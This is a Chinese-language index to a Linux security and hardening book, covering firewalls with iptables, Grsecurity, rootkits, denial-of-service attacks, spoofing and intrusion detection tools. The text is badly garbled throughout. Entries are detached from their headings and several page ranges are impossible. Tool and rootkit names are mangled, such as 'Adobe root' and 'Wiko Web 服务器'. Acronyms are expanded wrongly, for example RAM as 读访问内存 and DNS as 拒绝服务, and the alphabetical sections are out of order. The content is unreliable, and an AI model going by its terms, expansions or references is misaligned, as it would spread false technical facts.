广告服务器，拦截, 186

Adamantix 分发版, 294

地址空间布局随机化 (ASLR), 46

密码, 214–215

版本隐藏, 388–389

Web 服务及, 387–411

测试，限制, 268

应用程序邮件列表, 461–462

应用程序，选择, 304–307

架构

Grsecurity, 349–353

引言, 336–339

最小权限概念, 335

Linux 入侵检测系统 (LIDS), 364–380

NIS 服务器, 424–425

基于角色的，使用

广播，以及 Smurf

动态。见动态地址分配

过滤非法, 186–190

IP. 见 MAC 地址

主守护进程，Ness, 147

Trino 洪水泛洪网络（图），

Grsecurity, 339–364

增强安全 (SELinux), 381

访问控制列表 (ACLs), 336–337–354

接入点 (82)

配置, 82

与无线网络, 83

放置, 88

评估受损的损害, 5–8

后门, 6

额外提权, 264

与阴影密码, 32

超时, 118

ACK (确认) 53

ARP (地址解析协议) 55

`arp` 命令, 55, 77

ARP 欺骗, 69–78

ARP 表, 503

LR (地址空间随机化), 316–320

相对评估损害, 18

密码中的 (*), 208

Adleman, Lee 521

Ade-nok root (2.6.kernel), 46

Adobe root (2.4.kernel) 41–45

高级加密标准 (AES), 82–83

AES (高级标准), 82–83, 216, 520

AH (认证头), 121, 122

加密, 517, 525

密码保护, 211

用户, 205

Amazon.com, DDoS 攻击, 50

分析日志文件, 464–471

Andansson, Oskar

反扫描器, 263–264

Apache 访问控制, 391–398

使用 `htpasswd`, 215

类别, 70

消耗, 54

密码学, 518–519

分段, 53

机器内, 62

针对网络, 46–71

覆盖自, 489–491

序列号, 145

Smurf, 50–53

关于本书, vii

审计 ACL 结构, 350–359

ACL (访问控制列表) 描述, 336–337

文件，及权限, 368

与 Grsecurity, 359–364

与 Tripwire, 482

内核, Grsecurity, 345–346

Nessus 漏洞, 146–152

使用 Nikto 的网站, 153–154

ISP 的 AUPs (可接受使用策略), 134

与 Aegis root, 42, 44

基础, Digest, 272–278, 393

证书，及 X.509 使用, `.htpasswd`, 215–216

PAM 密码控制, 222–223

密码, 46

基于令牌的, 285

Windows主机, 284–285

认证头 (AH), 121, 122

自动日志工具, 275

ava, 43–44

Avaya Labs' Libs, 313–314

后门账户, 6, 17

后门, 30–36, 37

带宽, 44

及 Smurf 攻击, 51

横广告，拦截, 162

Barnyard 日志工具, 486

Bash shell 竞态条件和代码, 23–24

基础认证, 273–274, 393–396

使用 Nikto 批量扫描, 157

Berkeley's R Suite, 64, 230–232

Bernstein, Dan, 447

`/bin/login` 和 toorn, 40

移除不, 301–302

suid, 16–17

root rootkit, 39

被木马化的系统, 34

BIND 服务和 Adobe worm, 27

DNS 及, 52, 423–438

和 Ramen, 28

BIOS 密码, 254

盲 IP 欺骗, 66–67

拦截横幅，cookies, 164, 271

主机, 158–186, 198–200, 68–470

Blowfish 块密码, 522

书，在 CD-ROM 上, 527–530

读者, vii

组织结构, xvii–xviii

边界检查和固链链,

Bounds Checking, 311–312, 322, 332

广播放大器和 Smurf 攻击, 51

广播数据包和 NetBIOS, 83

支持 Java 的, 268

预安装的, 53

BSD 进程，带日志

BSDs (OpenBSD, FreeBSD, NetBSD), 125

描述的缓冲区攻击, 3, 16–17

防止, 314–320

x2 漏洞, 2

BugTrap, 151–152, 461

缓存 DNS 投毒, 58

值, 250–51

CAM (内容寻址内存), 298

表泛洪, 76

权限, Linux, 337–368

驱动器, 253

使用此内容，CERT: 见 Team

数字证书, 276–278, 279–280

颁发机构 (CAS), 278

CFS (加密文件系统), 421

CGI (通用网接口) 脚本, 398–399

CGWP 程序, 405

及 NAT 表, 91

更改密码并被起诉, 16–17

章节摘要, 384–385

访问控制, 391–398

重要性, 10

Linux 选择的, 289–294

数据包过滤与 `iptables`, 194–195

安全性, 56–57

扩展的, 119

版权保护，破解者及, 8

路由/counter.com, 264

CPU 时间和竞态条件, 24

破解者,

(DNSSEC), 432–435

DNS 服务器配置，及, `iptables`, 182–183

DNS, NIS, 224

DNS (拒绝服务) 攻击描述, 9–10

Mitvin, 66

起诉, 490–491

崩溃-dealers, 22

CRC-32 认证栈, 22–23

CRE (范围错误检测), 312–314

信用卡和订单, 10

`crypt` (function), 591

### 534 索引

Libsafe, 314

LIDS, 364–366

LSM (Linux 安全模块), 338

Nmap, 135

PS3 代理服务器, 281

密码程序, 214

Snort IDS, 486

Syastrace, 323

Tripwire 完整性监控工具, 471

使用 `iptables` 丢弃包, 174

意外数据包, 197

数据嗅探服务器, 62–68

DTE (域类型强制, 336–358, 382–383)

Dognet, 68

动态地址与 DoS 攻击, 190

以及防火墙管理, 196–202

动态主机配置协议 (DHCP), 181–182

动态链接库 (DLLs) 与 Libsafe, 314

动态更新, 826–427

### E

以及 Andre 蠕虫, 27

客户端过滤, 280–282

完整性, 282

邮件轰炸, 554

服务加固, 438–451

窃听，数据安全, 59–62

eBay，针对其 DoS 攻击, 50

ECMA (欧洲计算机制造商协会), 266

`ELITE_CMD` 和 Adobe 根内核, 41

启用设置, 233

加密密码, 14–15, 208–210

加密条目, 282

加密与解密

AES (高级加密标准), 82

哈希算法, 522–554

MySQL 支持的方法, 216

流行算法, 519–523

对比明文, 6


# A
- 带有 `AH` 协议的 `ESP` (表格), 122
- 使用 `/etc/inetd.conf` 创建后门, 32–33
- `/passwd`, 15, 24, 26, 31–32, 207–208
- `/etc/shadow` 文件 (UNIX), 6
- `/etc/sudoers` 配置, 244–246
- `/etc/sysconf.conf`, 112–113

# E
- 以太网数据服务器, 60–61
- 以太网 (`Ethernet`), 59–60
- `ettercap` 数据服务器, 60
- 感叹号 `!` (165), 244
- 加密局限性，功能, 346–347
- 参见特定访问的损害, 5–描述, 2
- `SSH` 攻击, 22–23
- 外部数据表示 295

# F
- `Fedora` 分发版, 291, 304–307
- 文件扩展，与 `iptables` 匹配, 169–174
- 在 `CD-ROM` 中, 528–530
- 全局可写, 239
- 文件系统
- `FTP` 服务器横截面 (图), 295
- 保护, 342–345
- `FIFO` (先进先出) 栈, 19
- 过滤器表, 90
- 客户端邮件, 280–282
- 非法攻击, 186–190
- 过滤器设置包过滤
- 垃圾邮件, 281–282
- 财务攻击, 4
- 过滤器进程与 `Morris` 蠕虫, 26.
- `marker` 防墙远程协助工具, 158
- 防火墙管理, 196–202
- 防火墙/路由器, 180
- 创建防火墙规则集, 178–180
- 在三脚拓扑中, 103
- 管理工具, 200–202
- 防火墙脚本完整, 509–515
- `NAT` (网络地址转换), 505–508
- 变量, 105
- 防火墙化与 `iptables` 流量, 93
- 防火墙与网关, 80–83
- 使用 `iptables` 保护, 179–182
- 状态检测, 99–101
- 乌龟防火墙 (`Turtle Firewall`), 201–202
- `FLEA` 新手, 36
- 在软盘设备上放置系统工具, 203
- 移除, 253
- `fraggle`, 53
- 碎片化攻击, 53
- 帧点 (`Fs`), 19
- `FreeBSD`, 31, 125, 241
- `Free/WAN` 包程序, 263
- `FTP` (文件传输协议) 会话, 101–102
- `FTP` 服务器与 `chroot` 监狱, 294–296
- 加固, 451–456
- `tftp.sendmail.org`, 30
- `Fmap` 调查, 158

# G
- 网关默认值，在三脚模型中, 109–110
- 描述, 79
- 以及防火墙, 181
- `gets()` 函数与边界检查, 21
- 千兆以太网, 88
- `GNOME` (网络对象模型环境), 283
- 移除 `GNUL` 编译器, 30
- `GnPG` 加密工具, 525
- 全局统一引导加载程序 (`GRUB`), 255–256, 499–500
- 组，从远程锁定, 228
- 组成员关系, 340
- 即时消息传递, 264
- 日志，访问控制，`ACLs`, 349–359
- 在三脚拓扑中的内部路由, 108
- 内部威胁，端口扫描, 336–394
- 安全级别, 341–342
- `GRUB` (全局统一引导加载程序), 256, 297–498
- `GTK` (`GIMP` 工具包), 323
- 限制访问, 302
- 实现 `Grsecurity`, 359–364
- 安装, 89–90
- 入站包，生命周期, 91–
- 索引，`Apache`, 397
- 在其配置, 234–235

# I
- 互联网密钥交换 (`IKE`), 124
- 互联网联盟 (`ISC`), 423
- `ICMP` (网控制消息协议), 302–308
- 入侵检测系统 (`IDS`), 153–154, 485–496
- `echo` 领域, `Murmur`, 51
- `echo` 请求, 116–118, 143
- 消息与 `IPTables`, 184
- 以及 `ARP` 欺骗, 185–392
- 以及 `NAT`, 83–86
- 类型，数字 ID (表格), 117
- `IDEA` 算法, 522
- 网络, 64, 65–230
- `IP` 工具, 200–201
- 移除远程主机, 144–145
- `IPSec` (`IP` 安全), 120–125
- 入侵检测系统 (`IDS`), 153–154, 485–496
- 配置选项, 501
- `IKE` (互联网密钥交换), 124
- `ICMP` 特定匹配，文件扩展, 169–174
- 包过滤能力, 370–394
- `IPSec` (`IP` 安全), 125–129
- 防止 `DMZ`, 182–184
- 防火墙, 179–182
- 限制 `NFS` 服务器, 417–421
- 加密数据, 522
- `IPSec` (`IP` 安全), 120–125
- 初始序列号 (`IS`) 目标, 174–178
- `TCP` 特定匹配, 166–168
- 初始化，`System V`, 235
- `IPS`, 223
- `UDP` 特定匹配, 168–169
- `Tripwire` 数据库, 477
- 使用, 93–103
- 安装 `Iptables`, 89–90
- 内核, 496–498
- `ISP` (互联网服务商), 364–365
- 可使用策略, 134
- `Snort IDS`, 485
- `Tripwire`, 471–472
- `VSFTPD` (非常安全的 `FTPD`)，起诉, 490–491
- 握手，三路 `IP` 欺骗, (65),
- 以及 `SYN` 洪水攻击, 53
- 你的加固系统, 289–324
- 硬件记录器, 629,
- 哈希算法, 518–522
- 哈希方法, 15
- 头部，包与包过滤, 161–
- `Hellman`, `Steiner`, 554
- 模块, 101–103
- 隐藏目录和二进制文件，`Apache` 系统, 389–390

# J
- `jail`, `chroot`, 227–227. 参见 `chroot` 监狱
- 术语表 (`Raymond`), 8
- `Java`, `JavaScript` 与 `JavaScript`, 266–269
- `Java` 开发包 (`JDK`), 268
- `JavaScript`, 266–269
- `jjiffes`, 11
- `John the Ripper` 破解器, 15–16
- `Jones`, `Richard`, 311
- `Kelly`, `Paul`, 311

# K
- 审计, `Grsecurity`, 349–359
- 配置选项, 317
- 重新编译, 495
- 密钥与记录, 28–29
- 硬件记录器, 24
- 击键。参见键记录
- 监控, 101
- 自动日志时间, 257
- 回环地址，规则集, 188–190

# L
- 最小特权概念, 33
- 局域网。参见 `LANs`
- 本地包过滤, 191–195
- 锁定会话, 257
- 从远程锁定, 228
- 日志清理器, 36
- 使用日志文件分析, 70–471
- 日志分析, 464–471
- `MD` 密码控制日志, 211–212
- 松散路由器 (`LSR`), 110
- `LRK` (`Linux` 根内核), 483
- `LSM` (`Linux` 安全模块), 338–339

# M
- `MAC` (强制访问控制), 336
- `MAC` (媒体控制) 地址
- `ARP` 欺骗, 55, 64–77–79
- 与 `iptables` 匹配, 172–173
- `Macromedia Shockwave Flash` 插件, 270
- 邮件, 54
- 邮件投递代理 (`MDA`), 438
- 邮件传输代理 (`MTA`), 438
- 邮件用户代理 (`MUA`), 438
- 邮件列表，应用, 460–462
- 中间人攻击 (`MITM`), 69
- 强制访问控制 (`MAC`), 336
- `PAM` (强大身份验证模块), 217–229
- 根内核, 36–49
- 根防火墙, 64
- 精简, 301–307
- 系统管理员。参见
- 系统管理员对病毒的脆弱性,
- 蠕虫, 25

# 索引
537

# M (续)
- `Mandrake` 发行版, 293
- `mangle woke`, 90, 91
- 火星人 (数据包), 115
- 掩码 (`masks`), `reask` 工具, 116–117
- `MASQUERADE` 与 `iptables`, 90
- 主进程-守护进程架构 (`master-daemon architecture`), 49
- `MD5` 哈希算法方法, 15, 211–212, 275, 525–528
- `NAT` (网络地址翻译)
- 描述, 83–86
- 防火墙服务器, 505–508
- 内核配置选项, 502
- 以及端口转发, 91
- 非盲目 `IP` 欺骗 (`nonblind spoof`), 67
- 不可执行内存 (`NOEXEC`), 315
- 媒体控制地址。参阅 `MAC` 地址
- `MemGuard`, 308–309, 321
- `NOP` (无操作)指令, 22
- `Npswad`, 214
- `NTS` (网络文件系统) 与 `DoS` 攻击, 46
- 内存与溢出, 18–23
- `CAM` (当前地址内存), 64
- 不可执行 (`NOEXEC`), 35
- 不可执行页, 318–319
- 保护, 307
- `NAT`
- `iptables`, 以及在数据包周期中, 91–93
- `Nessus`, 使用该工具进行漏洞审计, 146–152
- `NetBIOS` 与广播数据包, 83

# O
- 开源安全审计工具, 157
- `OpenBSD`, 125, 323
- `OpenSSH`, 412
- `OpenSSL` 库, 缓冲区溢出漏洞, 26


`Openlink`, 293–294

消息 (`message`), `ICMP` 摘要摘要算法, 523

`MicroVerse`, 226

`Microsoft` `LTP` (第 2 层隧道协议), 123

`MIME` (多用途互联网邮件扩展), 273

`MIRROR` 目标, `iptables`,

`NetBSD`, 125

`Netfilter` 配置, 501

`Netfilter` 软件包, 102

`Netscape` 发明的控制功能, 270

导航器与 `JavaScript`, 266

116–118

网络地址与端口转换 (`Network Address and Port Translation`), 85–86

`OUTPUT` 链, 表, 91

缓冲区 (`buffer`)。见第 293–294

`MITM` 攻击 (中间人攻击), 70

`Mitnik`, 66

`midkar` 和 `Adore root`, 45

移动，安全, 78–89

监控日志文件, 101–464

系统完整性, 471–484

### P

`P3Scan` 代理服务器, 280–282

网络地址翻译 参阅 `NAT`

网络信息服务 `NFS` (`NIS`), 421–423

以及 `NAT` 和端口, 139

配合隧道 `/proc` 文件系统使用, 110–112

`Morris`, 26

`Morris` 蠕虫 (`Morris worm`), 26

挂载选项与父子关系, 241–243

`troino` 架构 (图), 50

针对攻击, 46–71

`Gsecurity` 协议, 347–349

局域网。`Sea` 的扩展性, 87–88

安全性, 133

作为广播放大器, 52

虚拟私有网络。参阅 私有网络 (`Private Networks`)

数据包过滤 163–164

配合 `iptables`, 89, 91

配合 `iptables` 总结, 202–204

数据包转发与 `iptables`, 98

数据包嗅探, 14–61

数据包 (`packets`)

- 丢弃, 重试, 97, 158
- 防火墙规则与, 103–106
- 生命周期, 91–93
- 发送限制/速率代码, 173–174
- 访问 `CA` 设置, 278–279
- 在 `signed alert` 中带有签名警示 (图), 269
- 查看已存储的 `Cookie` (图), 271

`火星人` (`martians`), 115

`nnat` 处理, 84

以及 `ping-pong` 攻击, 48–49

发送关闭 `TCP` 连接, 118

`MTA` (邮件传输代理) 与邮件炸弹, 54

多用途互联网邮件扩展 (`MIME`), 273

`MySQL`, 214–216

`PAM` (可插认证模块), 229

`Parker`, 31

分区方案与挂载选项, 240–241

`NFS` (网络文件系统),

`Wiko` `Web` 服务器, 153–157

`NIS` (网络信息服务), 421–423, 425–425

`Nmap`

- 名称服务器, 拆分功能, 436–438
- `ping` 扫描 (`ping sweep`), 150
- 扫描类型, 135–136
- `rmap` 二进制文件, 117

`NNTP` (网络新闻传输协议) 与端口 119, 33

被动 `FTP` 会话 (图), 102

`passwd` 程序, 214

密码 (`password`)

- 缓存, 250–251
- 使用 `PAM` 控制, 222–223
- 密码嗅探, 59

密码类 (`passwords`)

- `Nessus`, 148–150

可插认证模块 (`Pluggable Authentication Modules`)。参阅 `PAM`

加号符号 (`+`), 通配符在...

`ptrace` 函数, 45

公钥密码学 (`PKC`), 124, 276, 524

- 加密 (`encryption`), 28
- 以及认证, 46
- 基于 `Apache` 的保护, 39–98
- `ID`, 254
- 加密的, 14–15
- 保护, 206
- 随机生成, 228
- 要求单用户模式, 256–257
- 弱的, 213

`Linux`, 14–16

`iptables`, 165

故障点, 在防火墙/路由器中

- `ARP` 缓存, 66
- `DNS` 缓存, 58
- `Perl` 模块, 35
- `iptables`, 98–99

策略, 331

文件, 324–332

### Q

`Qmail`, 439, 447–448

### R

竞争 (`races`), 16–17

竞态条件, 23–24

重新配置, 127–128

`RAM` (读访问内存), `Linux` 基础, 14

描述, 28–29

`Raymond`, `S.`, 8

`RBAC` (基于角色的控制), 337, 256

规则 (`rules`), 384

- `iptables`, 93–94

规则集 `iptables`, 176–178

`RC2`, `RC4`,

返回 (`return`) 地址, 190

`Rivest`, 501

重置 (`RST`) 泛洪, 54

`RSA` 算法, 521–522

`RSH` (远程 `Shell`) 与 `Morris` 蠕虫,

重放 (`replay`), 84

基于访问 (, 8, 4, 310, 311)

`SA` (安全关联), 5, 229

载荷, 315

`sandbox` (沙箱), `Java`, 268

脚本 (`script`), 10

脚本 `CGI`, 398–399

安全 浏览, 264–269

`Web`, 398–399

安全哈希算法 (`SHA`), 524

安全 `Shell` (`Secure Shell`)。参阅 `SSH`

`SecureID`, 217

安全杀毒软件, 264

网络审计, 133, 158

桌面, 一般, 261–262

虚拟私有网络 (`VPN`), 120–129

漏洞审计, 146–152

安全增强 `Linux` (`SELINUX`), 376–379

- `ipsec`, 125

`Seegvard` 工具, 52

签名, 525

`Slackware` 发行版, 292

`Slapper` 蠕虫, 26–27, 483

`SmoothWall Expression`, 299

`SMTP`, 数据包过滤, 193–194

`SMTP` 服务器与 `iptables`, 183–184

垃圾邮件, 271–282, 441–443

欺骗 (`spoofing`)

- `ARP`。`ARP` 欺骗
- 盲目的, 67–68
- 以及回环地址, 188
- `MAC` 地址, 77

`SSH de` 攻击, 222–23, 3

`SSH` (`Secure Shell`)

- 访问, 以及 `iptables`, 180–181
- 针对主动攻击 (图), 2
- 以及缓冲区溢出, 22–23
- 配置, 版本头部,
- 隧道连接, 412–413

基于主机的认证, 46

源代码, 94

源地址 `NAT` (`SNAT`), 85–86

源路由在三层模型中

拓扑, 110

`SSHD` 本地包过滤, 195

`SSHD` 攻击, 28

`sshd` 二进制文件, 39, 40

`SSL` (套接层)

- 安全 `HTTP`, 276–277
- `TLS` 支持, 455

`SSP` (栈掩罩保护), 309–311, 332

`stack` (栈)

- 函数调用期间的布局（fig., 19）
- `Linux`, 20
- 指针 (`sp`), 19

栈掩罩保护 (`SSP`), 309–311

`Stockguard`, 307–308, 321, 332

启动与服务, 99, 233–241

有状态瀑布 (`stateful waterfalls`), 99

启动与服务, 233–241

`STOUT` 函数，导出实例转储至, 93

`ace` 工具, 297–300, 376–379

密码策略, 212–214

`crypt` 函数与绑定检查, 21

严格源路由 (`SSR`), 110

强密码, 213–216

隧道, 448–449

`UID` (超级用户), 204–246

`uid`

- 二进制文件, 16–17
- `shell`, 创建 `shell`, 33

`SUID` 文件, 240–241

`Sun`

- `Java`. 参见 `Java`
- 网络文件系统. 参见 `NFS`

`RPCs`, 424

`SuSE` 发行版, 291–292

交换式 `LAN` 绑定, 61–64

`switches` (交换机)

- 端口安全, 77
- 对比集线器, 75–76

赛门星网络安全威胁报告, 5

符号链接, `apache`, 397

`SYN cookies`, 119

`SYN` 洪水攻击, 53–55, 118

`syntax` (语法)

- `Iptables`, 94–96

`SNAT` (源地址转换), 97–99

`sysctl` 工具，使用, 111–113

`syslog`, 225–467

`system` (系统)

- 安全, 205–290
- 加固, 289–290
- 完整性监控, 471–484
- 保护, 206–216

`system administrators` (系统管理员)

- 本书读者群体, xvii
- 密码委托, 206

`SAANS` 指南，用于

- 保持最新，更新, 460–464, 491–492
- 强制执行强密码,


# 索引

## 数字
- 单元和 Android rootkit, 41
- 使用 `string` 列出, 297–300

## S
- 系统要求, `CD-ROM`, 527
- `System V` 初始化, 235
- `Systrace`, 监控系统调用, 322–332

## T
- `root` rootkit, 40–43
- 污染模式 (`taint mode`), `Perl`, 405
- `TCFS` (透明加密文件系统), 421
- 模型类型, 118–119
- `TCP` 连接 (`connections`)
    - 使用 `Nmap` 进行端口扫描, 135, 137–141
    - 与 `Sendmail` 漏洞, 31
    - 与 `SYN` 洪水攻击, 54–55
- `TCP` 指纹识别, 144, 145
- `TCP/IP` 协议栈，以及 `ping` 洪水攻击, 47
- `TCP` 包与 `IPTables`, 166
    - `MOROR` 目标, `Iptables`, 178
    - 与 `SYN`, 222, 414
- `(TKIP)`, 82
- 测试苹果设备限制, 268
- `TFN` (部落食物网络), 488–493
- `TFreak`, 51
- `3DES` 加密算法, 520
- 三脚式拓扑, 103–110, 130
- 三次握手
    - 与 `IP` 洪水攻击, (fig.), 65
    - 与 `SYN` 洪水攻击 (fig.), 53
- `time` (时间), 116
- `TTL` (生存时间). 参见 `TTL`
- `times`, 24
- `TKIP` (透明完整性协议和无线网络), 82
- `TLS` (`SSL`) 支持, 455
- 基于令牌的身份验证, 285
- `topology` (拓扑结构)
    - 完整的网络防火墙脚本, 78–88
    - 安全规划, 73–74
    - 三脚式 (ig.), 130
    - 三脚式模型，实现, 103–110
- 三脚式拓扑中的流量路由, 109
- `BIND` 服务的事务 ID, 429–430
- `trans` `TCFS` 透明加密系统 (`TCFS`), 421
- 传输层系统 (`TLS`), 276–443
- 传输模式, `IPsec`, 122–124
- `trino` 工具, 45–50
- `tripwire` 文件完整性监控工具, 471–483
- 可信 `applet` 程序, 268
- `TSIG` (事务服务), 429–430
- `TTL` (生存时间)
    - 与 `Iptables-proto`, 170–171
    - 与 `Nmap` 远程主机识别, 144
- 重写, 185
- 使用 `/proc` 文件系统调优, 110–113
- `tunneling` (隧道化)
    - `SSH` 之 `NFS`, 420
    - 对比 `IPsec` 中的传输模式, 122–124
- `turtle` 防墙, 201–202
- `Type of Service` (`ToS`) 值, `iptables`, 169–170

## U
- `UDP`, 47
- `UDP` (数据报协议), 107
    - 使用 `Nmap` 扫描, 136
    - 与 `iptables`, 168
- 登录, 38
- 阻断主机, 198–200
- 未授权访问, 30
- `VM` 应用, 456
- `VPNs` (私有网络)
- `VSFTD` (安全 `FTP`), 454–455
- `vulnerability` (漏洞)
    - `Linux`, 14–30
    - 从入侵中恢复, 289–491
    - 使用 `Nessus` 扫描, 156–142
    - 与 `NAT`, 86–88
- `vulnerabilities` (漏洞性)
    - `Linux`, 14–30
    - 漏洞扫描, 134
    - 世界可写文件, 240
- `worms` (蠕虫)
    - `Morris`, 26
    - `Slapper`, 26
- 与 蠕虫, 25–26
- `WU-FTP` 服务器, 451–554
- `/etc/shadow`, 6
- `/etc/shadow` (`UNIX`), 15
- `John the Ripper` 破解器, 15
- un信任的时代, 268
- 更新审计, 460–462
- 更新管理, 491–492
- `user` (用户)
- 使用可插身份验证模块 (`PAM`), 217–229
- 用户权限紧固, 239–243
- 用户态工具, 318–319
- 用户空间工具, 322–332
- `Windows` 系统未授权访问, 29–30

## W
- `Windows`
    - `IDDoS` 代理,, 9
    - 基于主机的身份验证, 284–285
    - 远程操作, 283–284
    - 对比 `Linux`, 265
- `WiFi` 访问保护, 82
- 无线接入点 (`WAPs`), 81
- 无线网络，`AP` 配置, 81–82
- `WireX`, 338
- 工作站与 `ARP` 欺骗, 77

## Y
- `Yahoo!`, `DDoS` 攻击目标, 50

## Z
- `Zimmermann`, `Phil`, 525
- 区域传输, 426
- `zxf` bug, 56
